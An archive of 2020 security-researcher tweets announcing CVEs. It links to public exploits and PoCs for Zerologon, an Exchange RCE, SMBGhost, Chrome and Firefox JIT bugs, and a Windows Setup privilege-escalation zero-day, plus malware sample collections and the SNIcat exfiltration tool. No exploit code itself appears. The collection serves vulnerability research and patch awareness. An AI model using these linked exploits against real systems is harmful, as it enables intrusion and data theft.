# gentilkiwi
**https://twitter.com/gentilkiwi/status/1306178689630076929 _at Wed Sep 16 10:30:41 +0000 2020_**
<blockquote>
A new #mimikatz 🥝release with #zerologon / CVE-2020-1472 detection, exploit, DCSync support and a lots of love inside ❤️

It now uses direct RPC call (fast and supports unauthenticated on Windows)

&gt; https://t.co/Wzb5GAfWfd

Thank you: @SecuraBV https://t.co/s7LRRLPRTP
</blockquote>

* https://github.com/gentilkiwi/mimikatz/releases

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>568</code></td>
<td>Favorites: <code>983</code></td>
</tr></table>

---
# ptswarm
**https://twitter.com/ptswarm/status/1305479737234599941 _at Mon Sep 14 12:13:18 +0000 2020_**
<blockquote>
We have reproduced the CVE-2020-1472 #zerologon vulnerability! It's an unauth RCE for Domain Controllers. https://t.co/qFe45O7WPR
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>206</code></td>
<td>Favorites: <code>457</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1305185204198277120 _at Sun Sep 13 16:42:56 +0000 2020_**
<blockquote>
Here's a PoC for the recently patched Microsoft Exchange Server remote code execution vulnerability (CVE-2020-16875).

CVSS Score: 8.4
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1305146341992140803 _at Sun Sep 13 14:08:31 +0000 2020_**
<blockquote>
CVE-2020-16875: Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability

PoC
https://t.co/yjvJlbmchI https://t.co/V4HbRHEmZY
</blockquote>

* https://srcincite.io/pocs/cve-2020-16875.py.txt

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---
# reverseame
**https://twitter.com/reverseame/status/1304301839442227201 _at Fri Sep 11 06:12:45 +0000 2020_**
<blockquote>
CVE-2020-1571 Windows Setup Elevation of Privileges Bypass 0day https://t.co/bLpWzsu6PK
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1304299580117442561 _at Fri Sep 11 06:03:47 +0000 2020_**
<blockquote>
CVE-2020-8150 – Remote Code Execution as SYSTEM/root via Backblaze  https://t.co/TIM3dXQ0mG  #Pentesting #RCE #CVE #Vulnerability #Infosec https://t.co/jxt2oxiPvc
</blockquote>

* https://github.com/geffner/CVE-2020-8150

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>13</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1304095793809371137 _at Thu Sep 10 16:34:00 +0000 2020_**
<blockquote>
Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability (CVE-2020-16875)

Advisory: https://t.co/UvvCkGGOEA
poc (http): https://t.co/mGah1PBcAM
poc (ps-remoting): https://t.co/ziVbNP3jXN
</blockquote>

* https://srcincite.io/advisories/src-2020-0019/
* https://srcincite.io/pocs/cve-2020-16875.py.txt
* https://srcincite.io/pocs/cve-2020-16875.ps1.txt

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>224</code></td>
<td>Favorites: <code>369</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1303956979967299585 _at Thu Sep 10 07:22:25 +0000 2020_**
<blockquote>
F5 Big-IP RCE writeup + full exploit https://t.co/mosecvS59p
Exploit: https://t.co/tgPRb3GKeZ
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/
* https://github.com/Critical-Start/Team-Ares/tree/master/CVE-2020-5902

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>208</code></td>
<td>Favorites: <code>363</code></td>
</tr></table>

---
# JasonGeffner
**https://twitter.com/JasonGeffner/status/1303707439498436608 _at Wed Sep 09 14:50:49 +0000 2020_**
<blockquote>
CVE-2020-8150 – Remote Code Execution as SYSTEM/root via Backblaze

https://t.co/EL9EDkyrVc

Full vulnerability details (including PoC) at https://t.co/WHwNlV3xZ4
</blockquote>

* https://youtu.be/W0THXbcX5V8
* https://github.com/geffner/CVE-2020-8150/blob/master/README.md

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>21</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1303454166820556800 _at Tue Sep 08 22:04:25 +0000 2020_**
<blockquote>
So CVE-2020-1523 and CVE-2020-1440 are actually powerful SSRF bugs and not just result in "tampering". Likewise CVE-2020-16875 is certainly NOT a memory corruption and I have a full working RCE exploit.

https://t.co/sAcdmv1QqD
https://t.co/h2f0ZcaHV6
https://t.co/JHegDlI9pW
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1523
* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1440
* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>256</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1303426162429890560 _at Tue Sep 08 20:13:08 +0000 2020_**
<blockquote>
CVE-2020-1013: Windows Local Privilege Escalation (LPE) with PoC https://t.co/sJNcpiqT4i
</blockquote>

* https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1303398192793477124 _at Tue Sep 08 18:21:59 +0000 2020_**
<blockquote>
4 more RCE Vulnerabilities in Microsoft September patch Tuesday:

Windows Camera Codec Pack:
CVE-2020-0997

Windows Codecs Library:
CVE-2020-1129

Jet Database Engine:
CVE-2020-1039
CVE-2020-1074
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---
# maxpl0it
**https://twitter.com/maxpl0it/status/1299068051044921347 _at Thu Aug 27 19:35:33 +0000 2020_**
<blockquote>
Published my exploit for CVE-2019-17026 (Firefox JIT bug):

https://t.co/YeFsnSVYDv

No sandbox escape included but if anybody wants a challenge, chain it with CVE-2020-0674 for a neat sandbox escape on Windows!
</blockquote>

* https://github.com/maxpl0it/CVE-2019-17026-Exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>244</code></td>
</tr></table>

---
# r4j0x00
**https://twitter.com/r4j0x00/status/1298682570448674817 _at Wed Aug 26 18:03:47 +0000 2020_**
<blockquote>
Here's my 1day exploit for https://t.co/HOW8DV5aCe 😁. Works for chrome version &lt;= 83.0.4103.61. 
https://t.co/r4opFYMDZ0 https://t.co/8hjWHE6h1D
</blockquote>

* https://github.com/v8/v8/commit/85bc1b0cab31cc064efc65e05adb81fee814261b#diff-2e2c5645d87dabecd3793b1f10300974
* https://github.com/r4j0x00/exploits/tree/master/chrome-exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>182</code></td>
<td>Favorites: <code>562</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1298626893474721792 _at Wed Aug 26 14:22:33 +0000 2020_**
<blockquote>
AndroidMalware_2020 : Popular Android malwares of 2020 : https://t.co/29pEEZA6G7

AndroidMalware_2019 : Popular Android malwares of 2019: https://t.co/Bb9MDBzw45 

AndroidMalware_2018 : Popular Android malwares of 2018 : https://t.co/QWnEJV43Zy credits @skeptre_void
</blockquote>

* https://github.com/sk3ptre/AndroidMalware_2020
* https://github.com/sk3ptre/AndroidMalware_2019
* https://github.com/sk3ptre/AndroidMalware_2018

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1298623978743795713 _at Wed Aug 26 14:10:58 +0000 2020_**
<blockquote>
android-security-awesome : A collection of android security related resources: https://t.co/JhbRHbb2Tu 

adb-enhanced : Swiss-army knife for Android testing and development: https://t.co/chqcc7UPEp 

android-malware: Collection of android malware samples: https://t.co/GobIOlVT49
</blockquote>

* https://github.com/ashishb/android-security-awesome
* https://github.com/ashishb/adb-enhanced
* https://github.com/ashishb/android-malware

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1298616537545207808 _at Wed Aug 26 13:41:24 +0000 2020_**
<blockquote>
Coqui : Bare Bones Banking malware coded for research &amp; educational purposes : https://t.co/jcgTfW4Df1 

Details : https://t.co/vQpBEMsyVA
</blockquote>

* https://github.com/1d8/Coqui
* https://0x00sec.org/t/coqui-a-keylogger-that-activates-for-only-banking-related-sites/22818

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1298560490197716992 _at Wed Aug 26 09:58:41 +0000 2020_**
<blockquote>
CVE-2020-1380: Analysis of Recently Fixed IE Zero-Day  https://t.co/FKZYgry3BN  #Pentesting #Exploit #Vulnerabilities #CyberSecurity #Infosec https://t.co/Rpc1sNTdzk
</blockquote>

* https://www.trendmicro.com/en_us/research/20/h/cve-2020-1380-analysis-of-recently-fixed-ie-zero-day.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---
# hoangkien_1020
**https://twitter.com/hoangkien_1020/status/1298473776653328384 _at Wed Aug 26 04:14:07 +0000 2020_**
<blockquote>
My next CVE in Joomla to RCE:
CVE-2020-24597: Directory traversal in com_media to RCE
PoC:
https://t.co/uZQDZVRuIg
</blockquote>

* https://github.com/HoangKien1020/CVE-2020-24597

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# edwardzpeng
**https://twitter.com/edwardzpeng/status/1298173366692536320 _at Tue Aug 25 08:20:24 +0000 2020_**
<blockquote>
It’s not a good option to disclose 0day in public. But when vendor chooses to ignore your reports, you have no other choice.  Publishing two info leak vulnerabilities we found last month which Microsoft refuse to fix them. https://t.co/Bpx4buWxJL
</blockquote>

* https://github.com/hhlxf/USO_Info_Leak

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>359</code></td>
</tr></table>

---
# iamelli0t
**https://twitter.com/iamelli0t/status/1298092483407093761 _at Tue Aug 25 02:59:00 +0000 2020_**
<blockquote>
My analysis of the recent Internet Explorer zero-day vulnerability, CVE-2020-1380

https://t.co/qo21pj0xii
</blockquote>

* https://www.trendmicro.com/en_us/research/20/h/cve-2020-1380-analysis-of-recently-fixed-ie-zero-day.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1297524859623243777 _at Sun Aug 23 13:23:28 +0000 2020_**
<blockquote>
Finding New Bluetooth Low Energy Exploits via Reverse Engineering Multiple Vendors Firmwares : https://t.co/TAYqDXIRGJ 

Slides : https://t.co/M92krBOitZ  credits @VeronicaKovah
</blockquote>

* https://www.youtube.com/watch?v=MRRkBWv4VVU
* https://github.com/darkmentorllc/publications/blob/master/2020/TI_SILABS_BLE_RCEs/slides_TI_SILABS_BLE_RCEs_v1.0.0.pdf

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---
# 3XS0
**https://twitter.com/3XS0/status/1297442644172341248 _at Sun Aug 23 07:56:46 +0000 2020_**
<blockquote>
CVE-2020-1571 Windows Setup Elevation of Privileges Bypass 0day  https://t.co/Gpu6sIPmQT  #Pentesting #Windows #Vulnerability #CVE #Infosec https://t.co/KfApof0Ggu
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# nuria_imeq
**https://twitter.com/nuria_imeq/status/1296937759547035653 _at Fri Aug 21 22:30:32 +0000 2020_**
<blockquote>
GitHub - spaceraccoon/CVE-2020-10665: POC for CVE-2020-10665 Docker Desktop Local Privilege Escalation https://t.co/bSHAZuvPNu
</blockquote>

* https://github.com/spaceraccoon/CVE-2020-10665

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# perito_inf
**https://twitter.com/perito_inf/status/1296800192256147456 _at Fri Aug 21 13:23:53 +0000 2020_**
<blockquote>
CVE-2020-1571 : Windows Setup Elevation of Privileges Bypass 0day

Affected Version:
Windows 10 1803/1809/1903/1909/2004

https://t.co/uH5DBVXEhT
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# hackyzh
**https://twitter.com/hackyzh/status/1296687587873230848 _at Fri Aug 21 05:56:26 +0000 2020_**
<blockquote>
Finally,he could rce on windows 2008 successful by CVE-2020-1350.This chain spent him too much time.👍
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---
# YanZiShuang
**https://twitter.com/YanZiShuang/status/1296679004343164928 _at Fri Aug 21 05:22:20 +0000 2020_**
<blockquote>
#DNS #WindowsServer #CVE #EXPLOIT
DNS 漏洞 CVE-2020-1350 EXPLOIT 新鲜出炉 确定可以导致蠕虫

关于DNS的研究报告在近期可能会分享

堆风水-&gt;堆喷射-&gt;相关数据结构设置-&gt;(利用堆上数据结构任意地址写||信息泄露)-&gt;覆写全局函数指针-&gt;ShellCode 执行 https://t.co/VNfv2CYyrk
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>290</code></td>
</tr></table>

---
# Nahr3n
**https://twitter.com/Nahr3n/status/1296525339292774400 _at Thu Aug 20 19:11:43 +0000 2020_**
<blockquote>
CVE-2020-10665:
#Docker (Desktop Enterprise before 2.1.0.9, 
Desktop for Windows Stable before 2.2.0.4/2.2.2.0) - Local Privilege Escalation (PoC)
https://t.co/CgC9Gsfa9w
</blockquote>

* https://github.com/spaceraccoon/CVE-2020-10665

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1296071824657326081 _at Wed Aug 19 13:09:37 +0000 2020_**
<blockquote>
RT @neosysforensics: New blog and new post :)

CVE-2020-1337: my two cents
https://t.co/YxZOdG5rSA

Also in spanish
https://t.co/x08zMvkGSK…
</blockquote>

* https://blog.hiveminds.es/en/posts/cve-2020-1337_my_two_cents/
* https://blog.hiveminds.es/es/posts/cve-2020-1337_mis_dos_centavos/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# neosysforensics
**https://twitter.com/neosysforensics/status/1296045753610182657 _at Wed Aug 19 11:26:01 +0000 2020_**
<blockquote>
New blog and new post :)

CVE-2020-1337: my two cents
https://t.co/YxZOdG5rSA

Also in spanish
https://t.co/x08zMvkGSK

Thx to @h4ng3r and the rest of the crew!
</blockquote>

* https://blog.hiveminds.es/en/posts/cve-2020-1337_my_two_cents/
* https://blog.hiveminds.es/es/posts/cve-2020-1337_mis_dos_centavos/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# nuria_imeq
**https://twitter.com/nuria_imeq/status/1295795693811007489 _at Tue Aug 18 18:52:22 +0000 2020_**
<blockquote>
GitHub - klinix5
CVE-2020-1571 Windows Setup Elevation of Privileges Bypass 0day https://t.co/lkOxCNcAkU
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---
# ihack4falafel
**https://twitter.com/ihack4falafel/status/1295775079855529984 _at Tue Aug 18 17:30:28 +0000 2020_**
<blockquote>
[Blog] Windows AppX Deployment Service Local Privilege Escalation (CVE-2020-1488) https://t.co/HfsOdyAtKM
</blockquote>

* https://tinyurl.com/yy5va7py

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1295406895172182016 _at Mon Aug 17 17:07:25 +0000 2020_**
<blockquote>
VirtualDynamicAnalysis : A basic android pentest environment to instrument apps without root or repackaging an app : https://t.co/1aMMiphyQD 

Dynamic analysis of apps inside Android Cloning apps – Part 1 : https://t.co/BMmGMp88Fw
</blockquote>

* https://github.com/darvincisec/VirtualDynamicAnalysis
* https://darvincitech.wordpress.com/2020/07/18/all-your-crypto-keys-belongs-to-me-in-android-virtual-containers/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1295398366239535104 _at Mon Aug 17 16:33:32 +0000 2020_**
<blockquote>
RT @thezdi: Windows Print Spooler Patch Bypass Re-Enables Persistent Backdoor. @HexKitchen details how the patch for CVE-2020-1048 was easi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# ddouhine
**https://twitter.com/ddouhine/status/1295372365975650305 _at Mon Aug 17 14:50:13 +0000 2020_**
<blockquote>
1st @geutebruck exploit module landed in @metasploit 😎

"(...) remote code execution as the root user, allowing them complete control over the affected camera."

CVE-2020-16205

Users -&gt; update to 1.12.0.27

Thx @tekwizz123 for the work behind the scenes

https://t.co/zGwyuKYb6K
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13986

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---
# VP_helena
**https://twitter.com/VP_helena/status/1295155240677920768 _at Mon Aug 17 00:27:26 +0000 2020_**
<blockquote>
CVE-2020-0796 RCE PoC source #SMBGhost 
https://t.co/ayuWMYFPHI
</blockquote>

* https://github.com/chompie1337/SMBGhost_RCE_PoC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# _can1357
**https://twitter.com/_can1357/status/1295103431145922562 _at Sun Aug 16 21:01:34 +0000 2020_**
<blockquote>
I've decided to publish my VMProtect devirtualizer working for every 3.x version up to the latest 3.6 along with the experimental x64 compiler.

It can be found at https://t.co/zJQHjFG46e licensed under GPL-3, hopefully it attracts some interest in the VTIL project, enjoy :)
</blockquote>

* https://github.com/can1357/NoVmp

<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>415</code></td>
<td>Favorites: <code>995</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1295073948657504257 _at Sun Aug 16 19:04:25 +0000 2020_**
<blockquote>
A Guide On WireGuard/DNSCrypt/SSH/Honeypot Implementation on OVH
https://t.co/bK7P2wWhCb
</blockquote>

* https://github.com/BetterWayElectronics/secure-wireguard-implementation

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# Nahr3n
**https://twitter.com/Nahr3n/status/1294887959829848064 _at Sun Aug 16 06:45:22 +0000 2020_**
<blockquote>
CVE-2020-1571: 
Windows 10 1803/1809/1903/1909/2004
Setup Elevation of Privileges Bypass #0day (#PoC)
https://t.co/UvBxC6ZQLJ
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1294675304871534592 _at Sat Aug 15 16:40:21 +0000 2020_**
<blockquote>
CVE-2020-1571 Windows Setup Elevation of Privileges Bypass 0day  https://t.co/cYoe2PnKZT  #Pentesting #Windows #Vulnerability #CVE #Infosec https://t.co/3H38QKJWA0
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1294497627975950341 _at Sat Aug 15 04:54:19 +0000 2020_**
<blockquote>
Discovery and analysis of a Windows PhoneBook Use-After-Free vulnerability (CVE-2020-1530)  https://t.co/W6wNhdj9oF  #Pentesting #Windows #Vulnerability #CVE #Infosec https://t.co/QcNffwBNde
</blockquote>

* https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---
# KLINIX5
**https://twitter.com/KLINIX5/status/1294278597306388482 _at Fri Aug 14 14:23:58 +0000 2020_**
<blockquote>
Hey MS, here's a bad tweet for u here's the bypass for CVE-2020-1571 as a 0day, I've written the full exploit + an explanation of what exactly happening 
https://t.co/TDg35EwrAx
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# RopHangmans
**https://twitter.com/RopHangmans/status/1293894060973928449 _at Thu Aug 13 12:55:58 +0000 2020_**
<blockquote>
PoC for CVE-2020-17506 Artica Auth Bypass &amp; RCE:
https://t.co/TzFoOdqlTz
</blockquote>

* https://github.com/hangmansROP/proof-of-concepts/blob/master/CVE-2020-17506-artica-rce.py

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1293632271749087232 _at Wed Aug 12 19:35:42 +0000 2020_**
<blockquote>
RT @TheHackersNews: Here are technical details for a new Windows Remote Access elevation of privilege #vulnerability (CVE-2020-1530) for wh…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1293609136605675520 _at Wed Aug 12 18:03:46 +0000 2020_**
<blockquote>
Here are technical details for a new Windows Remote Access elevation of privilege #vulnerability (CVE-2020-1530) for which #Microsoft released a security patch yesterday.

https://t.co/QaL3a1DbzC

Advisory: https://t.co/Nsc5X1cc5m

#PatchTuesday https://t.co/QTQajyZluF
</blockquote>

* https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1530

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---
# j00ru
**https://twitter.com/j00ru/status/1293600840461299712 _at Wed Aug 12 17:30:48 +0000 2020_**
<blockquote>
A direct link to the exploit is here: https://t.co/BzxsJAs5uJ

And a visualization of the ASLR bypass #3 mentioned in the post is shown in the GIF below (relevant frames 33-57): https://t.co/3SeDAT5tdl
</blockquote>

* https://github.com/googleprojectzero/SkCodecFuzzer/tree/master/mms_exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# symeonp
**https://twitter.com/symeonp/status/1293531800325754891 _at Wed Aug 12 12:56:28 +0000 2020_**
<blockquote>
Yesterday's Patch Tuesday included a PhoneBook use-after-free vulnerability (CVE-2020-1530) I reported. I decided to do a step-by-step write up on how I discovered it. It covers some basic sample gathering, harnessing, fuzzing, analysis and exploitation https://t.co/Uvyvy8CqX1
</blockquote>

* https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>157</code></td>
<td>Favorites: <code>350</code></td>
</tr></table>

---
# 44CON
**https://twitter.com/44CON/status/1293514331523436544 _at Wed Aug 12 11:47:03 +0000 2020_**
<blockquote>
(From https://t.co/OT552U6KvT): RCE PoC for CVE-2020-0796 "SMBGhost" https://t.co/iExMmv6sZE https://t.co/d9if2hQugD
</blockquote>

* http://github.com
* http://dlvr.it/RdVJPR

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>15</code></td>
</tr></table>

---
# matteomalvica
**https://twitter.com/matteomalvica/status/1293443946664857602 _at Wed Aug 12 07:07:22 +0000 2020_**
<blockquote>
Thrilled and psyched to introduce SNIcat!
This tool,made with 💟 by @mmarstrander and myself, bypasses most of TLS inspection devices such as ones from @F5Networks @PaloAltoNtwks @fortinet
Details here:
https://t.co/VwPSrB6g0k
PoC here:
https://t.co/DwFzjUC2LU
exfil responsibly🛸
</blockquote>

* https://www.mnemonic.no/blog/introducing-snicat
* https://github.com/mnemonic-no/SNIcat

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1293408837060501505 _at Wed Aug 12 04:47:51 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit  https://t.co/PRJBBTvpRL  #Apache #Java #RCE #Explot #CyberSecurity #Infosec https://t.co/eIK7DCWHAe
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1293262564529508352 _at Tue Aug 11 19:06:37 +0000 2020_**
<blockquote>
Microsoft’s #PatchTuesday updates include patches for two vulnerabilities—CVE-2020-1380 and CVE-2020-1464—being actively exploited. Update ASAP to protect your systems. https://t.co/FEPH4f2y7S #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xfArr

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>113</code></td>
<td>Favorites: <code>94</code></td>
